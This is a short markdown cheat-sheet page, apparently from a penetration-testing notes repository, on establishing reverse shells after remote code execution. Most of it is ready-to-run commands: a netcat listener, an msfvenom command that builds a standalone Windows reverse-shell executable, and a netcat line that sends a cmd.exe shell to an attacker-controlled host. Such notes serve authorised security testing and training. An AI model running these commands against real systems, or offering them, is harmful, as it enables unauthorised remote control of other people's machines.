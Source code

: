 ```yaml
---
label: Reverse Shell
---
```


# Reverse Shell

Once an RCE-type vulnerability is detected, we are able to create a reverse shell. On windows, often the only option for various types of exploits is to use a single standalone executable file. Here you have some options for establishing reverse shell connection.

Generators:

- [Revshells.com - shell generator](https://www.revshells.com/)

Listener on Linux:

```bash
rlwrap nc -lvnp $port
```

## Standalone binary

```bash
# Generate standalone reverse shell binary using Msfvenom
msfvenom -p windows/x64/shell_reverse_tcp -f exe -o shell.exe LHOST=$lhost LPORT=$lport 

# Usage (Windows):
./shell.exe
```

## Netcat

Netcat executable for Windows ([link](https://github.com/int0x33/nc.exe/)):

```powershell
# Usage
nc.exe $lhost $lport -e cmd
```
